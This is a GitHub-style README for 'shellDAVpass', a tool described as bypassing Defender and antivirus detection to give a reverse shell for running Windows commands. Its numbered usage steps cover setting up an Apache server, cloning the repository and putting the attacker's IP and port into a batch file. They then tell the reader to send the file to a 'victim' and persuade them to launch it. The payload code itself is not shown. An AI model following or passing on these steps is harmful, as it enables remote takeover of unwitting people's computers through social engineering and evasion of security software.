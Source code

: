 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE inder Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. chown -R www-data: shellDAVpass
6. cd shellDAVpass
7. nano shellDAVpass.bat
8. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
9. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
10. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
11. Launch the command prompt
  bash shellDAVpass.sh
12. Enter your commands
```
An original article:
--------------------
[https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/](https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)

Video example:
--------------
![](https://www.ivanglinkin.com/wp-content/uploads/2021/12/AutoSUID_Video.gif)

Screenshots:
------------
![](https://www.ivanglinkin.com/wp-content/uploads/2021/11/AutoSUID.png)
